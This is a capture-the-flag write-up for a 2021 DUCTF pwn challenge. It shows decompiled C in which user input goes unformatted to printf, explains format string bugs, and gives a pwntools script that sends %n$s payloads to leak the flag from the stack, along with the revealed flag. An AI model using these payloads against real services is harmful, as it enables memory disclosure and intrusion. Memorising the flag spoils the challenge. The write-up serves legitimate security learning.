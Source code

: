 # Leaking like a sieve

## Category
pwn

## Points
Dynamically allocated starting at 500, ending at 100

## Description
This program I developed will greet you, but my friend said it is leaking data like a sieve, what did I forget to add?

Author: xXl33t_h@x0rXx

`nc pwn-2021.duc.tf 31918`

Files: `hellothere`

## Keywords
pwntools, Ghidra, printf

## Notes
Calling the server asked for our name, and then echoed it back at us. It looked like this would go on forever, so I hit Ctrl-C to stop it:
```
$ nc pwn-2021.duc.tf 31918
What is your name?
Fred

Hello there, Fred

What is your name?
Jim

Hello there, Jim

What is your name?
^C
```

I opened the executable in Ghidra, and looked at the `main()` function:
```c
void main(void)
{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_58 [32];
  char local_38 [40];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  buffer_init();
  __stream = fopen("./flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts(
        "The flag file isn\'t loading. Please contact an organiser if you are running this on the shell server."
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_38,0x20,__stream);
  do {
    puts("What is your name?");
    fgets(local_58,0x20,stdin);
    printf("\nHello there, ");
    printf(local_58);
    putchar(10);
  } while( true );
}
```

Here we can see two arrays - `local_58` and `local_38`. The user's input is stored in `local_58`. Since it uses `fgets()` to get the user input, it would be difficult to overflow this buffer, and as the flag is loaded into `local_38`, we don't want to overwrite that!

One thing we can see is that the buffer is passed to `printf()` without a format string. A usual call to `printf` would be something like: `printf("%d\n", x);` where the value of `x` would replace the `%d` in the format string (`%d` is a placeholder for a signed decimal integer). If we didn't specify `x`, `printf()` would try to fulfil its format specifiers from memory.

As there is no format string when our name is printed out, we can specify one in our input, and this can expose items on the stack to us for reading and even writing to.

I have [some notes on printf()](../General-Notes/printf.md), but this is a relatively simple exploit. We simply want to read a string from the stack. `%s` is used to treat parameters as strings, so we can just try printing strings from various positions in the stack and see if it is our flag.

In `printf()`, we can change which parameter applies to a format string with `%n$`. For example:
```c
  printf("%3$d, %2$d, %1$d\n", 7, 8, 9);
```
would output:
```
9, 8, 7
```

So by specifying our format specifier of `%n$s` and having no parameters, we can print out any strings in various memory locations. By putting this in a loop, we can plough through memory printing out strings.

> *Note*: various items on the stack may not be printable strings, and my crash the program. If you get a segmentation fault, just try another location

I wrote a Python script with `pwntools` to test this:
```python
from pwn import *

# 10 locations is probably enough for this test
for i in range(1, 11):
  print(f"Attempt with: {i}")

  # Test against the server
  p = remote('pwn-2021.duc.tf', 31918)

  # Get the question and print it
  line = p.recvline()
  print(line)

  # Create our string to output strings from memory
  send_str = f"%{i}$s"
  print(f"Sending {send_str}")
  p.sendline(send_str)

  # Output whatever we get back
  line = p.recv()
  print(line)

  # Close the connection and restart, as we may have had a
  # segmentation fault
  p.close()
```

Running this against the server gives us the output:
```
$ python3 get_flag.py 
Attempt with: 1
b'What is your name?\n'
Sending %1$s
b'\nHello there, \nHello there, \n\nWhat is your name?\n'
Attempt with: 2
b'What is your name?\n'
Sending %2$s
b'\nHello there, \n\nWhat is your name?\n'
Attempt with: 3
b'What is your name?\n'
Sending %3$s
b'\nHello there, (null)\n\nWhat is your name?\n'
Attempt with: 4
b'What is your name?\n'
Sending %4$s
b'\nHello there, '
Attempt with: 5
b'What is your name?\n'
Sending %5$s
b'\nHello there, \xc0\x94\xab\xder\x7f\n\nWhat is your name?\n'
Attempt with: 6
b'What is your name?\n'
Sending %6$s
b'\nHello there, DUCTF{f0rm4t_5p3c1f13r_m3dsg!}\n\nWhat is your name?\n'
Attempt with: 7
b'What is your name?\n'
Sending %7$s
b'\nHello there, \x98$\xad\xfb\n\nWhat is your name?\n'
Attempt with: 8
b'What is your name?\n'
Sending %8$s
b'\nHello there, '
Attempt with: 9
b'What is your name?\n'
Sending %9$s
b'\nHello there, '
Attempt with: 10
b'What is your name?\n'
Sending %10$s
b'\nHello there, '
```

We can see when we send `%6$s` we get the flag!

We can get the same result manually, now we know the locations, by answering `%6$s` to the question:
```
$ nc pwn-2021.duc.tf 31918
What is your name?
%6$s

Hello there, DUCTF{f0rm4t_5p3c1f13r_m3dsg!}

What is your name?
^C
```

